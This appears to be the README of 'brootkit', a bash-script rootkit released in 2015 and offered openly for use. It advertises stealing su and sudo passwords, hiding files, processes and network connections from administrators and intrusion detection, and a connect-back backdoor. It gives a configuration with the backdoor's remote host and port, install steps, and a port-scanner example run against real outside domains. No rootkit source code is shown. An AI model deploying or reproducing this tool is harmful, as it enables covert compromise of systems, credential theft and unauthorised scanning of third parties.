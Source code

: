######BROOTKIT
    Lightweight rootkit implemented by bash shell scripts v0.06
    
    by wzt 2015   wzt.wzt@gmail.com http://www.cloud-sec.org
    
    If bash shell scripts can be designed for security tools like chkrootkit
    or rkhunter, so it can be implemented for a rootkit.

######FEATURES
    1. more hidable ability against admintrator or hids.
    2. su passwd thief.
    3. hide file and directorys.
    4. hide process.
    5. hide network connections.
    6. connect backdoor.
    7. muilt thread port scanner.

######TUBO
    1. sudo thief support.

######INSTALL

    1. edit br.conf first

      brootkit config file.

      #the ports will be hide: port1,port2,...,portn.
      HIDE_PORT               8080,8899
      #the files will be hide: file1,file2,...,filen.
      HIDE_FILE               br.conf,bashbd.sh,brootkit,.bdrc,brdaemon
      #the process will be hide: process1,process2,...,processn.
      HIDE_PROC               bashbd,brootkit,pty.spawn,brdaemon
      #the connect back host domain name or ip address.
      REMOTE_HOST             localhost
      #the connect back host port.
      REMOTE_PORT             8080
      #the connect backdoor base sleep time.
      SLEEP_TIME              60
    2. ./install.sh

    3. muilt thread port scanner.

      [root@localhost brootkit]$ ./brscan.sh
      ./brscan.sh <-p> [-n|-t|-o|-h] <remote_host>

      option:
      -p              ports, pattern: port1,port2,port3-port7,portn...
      -n              thread num, defalut is 10
      -t              timeout, default is 30s
      -o              results write into log file, default is brscan.log
      -h              help information.

      exp:
      ./brscan.sh -p 21,22,23-25,80,135-139,8080 -t 20 www.cloud-sec.org
      ./brscan.sh -p 1-65525 -n 200 -t 20 www.cloud-sec.org
      [root@localhost brootkit]$ ./brscan.sh -p 21,22-80 -n 20 www.aliyun.com
      host: www.aliyun.com | total ports: 60 | thread num: 20 timeout: 30 | logfile: brscan.log

      connect to www.aliyun.com:80 ok.

######SOURCE
    https://github.com/cloudsec/brootkit


